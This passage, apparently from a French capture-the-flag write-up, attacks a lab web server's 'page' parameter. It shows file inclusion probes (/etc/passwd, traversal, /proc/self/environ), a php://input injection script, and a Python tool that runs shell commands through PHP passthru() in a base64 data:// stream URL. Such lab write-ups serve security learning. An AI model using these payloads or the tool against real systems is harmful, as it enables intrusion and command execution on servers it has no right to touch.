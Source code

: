 ![Pages web cachées](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity5.png)

On teste rapidement quelques entrées pour le paramètre page comme /etc/passwd, ../../../../../../etc/passwd, .htaccess, /proc/self/environ mais de toute évidence il y a une protection supplémentaire.  

Idem en testant une injection via *php://input* (petit script qui pourrait vous servir) :

```python
import requests

cmd = "<?php echo('y0');?>"
url = "http://192.168.1.57/0f756638e0737f4a0de1c53bf8937a08/index.php?page=php://input"
r = requests.post(url, data=cmd)
print r.content
```

Finalement on obtient un résultat avec l'utilisation d'un [flux data](https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/).  

La fonction *system()* semble avoir été bloquée mais *passthru()* fonctionne à merveille :) On se fait un petit outil qui nous permet de passer des commandes presque comme si on y était :

```python
import requests
import base64
import sys

if len(sys.argv) < 2:
    print "Usage: python sploit.py cmd arg1 arg2..."()

cmd = ' '.join(sys.argv[1:])

cmd = base64.b64encode("<?php passthru('{0}');?>".format(cmd))
url = "http://192.168.1.57/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data:;base64," + cmd
r = requests.get(url)
start = r.content.index('div id="content"') + 17
try:
    end = r.content.index('</div>', start)
    print r.content[start:end]
except:
    print r.content
```
